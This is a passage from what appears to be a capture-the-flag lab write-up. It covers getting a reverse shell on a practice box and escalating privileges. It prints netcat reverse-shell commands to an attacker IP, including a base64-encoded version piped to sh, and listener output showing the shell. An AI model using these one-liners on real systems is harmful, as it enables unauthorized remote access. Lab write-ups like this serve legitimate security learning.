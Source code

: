 This means any file I write in the `uploads` directory that isn’t named a
valid IP will be passed to the part I can inject into.

### Shell Issues

Shells on this box we kind of annoying. This is a good case of remembering to
always try to run a shell yourself before trying to get another user’s process
to run it. Once I was sure I had a shell that connected back when I ran it, I
could use that same command for the privesc.

For example, I wanted to have guly run `nc -e sh 10.10.14.7 443`. This should
work, as `sh` is in my path. But it fails:

    
    
    bash-4.2$ nc -e sh 10.10.14.7 443                                           
    exec: No such file or directory
    

On my listener, I see the connection, and then it immediately dies:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.146.
    Ncat: Connection from 10.10.10.146:57708.
    root@kali#
    

So I tested some more shells as apache. This one worked well. I base64 encoded
what I wanted to run:

    
    
    root@kali# echo nc -e /bin/bash 10.10.14.7 443 | base64 -w0
    bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LjcgNDQzCg==
    

Now from apache I can run:

    
    
    bash-4.2$ echo bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LjcgNDQzCg== | base64 -d | sh
    

And I get a stable callback:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.146.
    Ncat: Connection from 10.10.10.146:57710.
    id
    uid=48(apache) gid=48(apache) groups=48(apache)
    

### Get Shell
